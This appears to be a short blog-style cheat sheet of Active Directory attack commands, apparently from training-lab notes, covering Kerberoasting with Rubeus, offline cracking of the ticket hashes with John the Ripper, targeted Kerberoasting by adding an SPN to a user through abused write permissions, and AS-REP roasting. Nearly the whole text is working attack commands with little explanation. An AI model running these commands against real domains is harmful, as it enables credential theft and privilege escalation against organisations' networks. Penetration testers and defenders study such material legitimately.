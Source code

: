 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Kerberoast and Variants
---
```


## Kerberoasting

1. Find Service Accounts
```bash
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
Get-DomainUser –SPN
```
2. Escalation via Service Accounts - Use Rubeus to request a TGS
```bash
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
Rubeus.exe kerberoast /rc4opsec /outfile:hashes.txt
```
3. Crack Ticket
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-
pass.txt C:\AD\Tools\hashes.txt
```

## Targeted Kerberoasting

1. Find "Write" Permissions
```bash
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
  
2. Find SPN
```bash
Get-DomainUser -Identity support1user | select serviceprincipalname
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

3. Set-SPN
```bash
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}
    ```

4. Kerberoasting
```bash
Rubeus.exe kerberoast /outfile:targetedhashes.txt john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```

## AS-REP Roasting

Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```bash
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
```


---

[back](../adprivesc.md)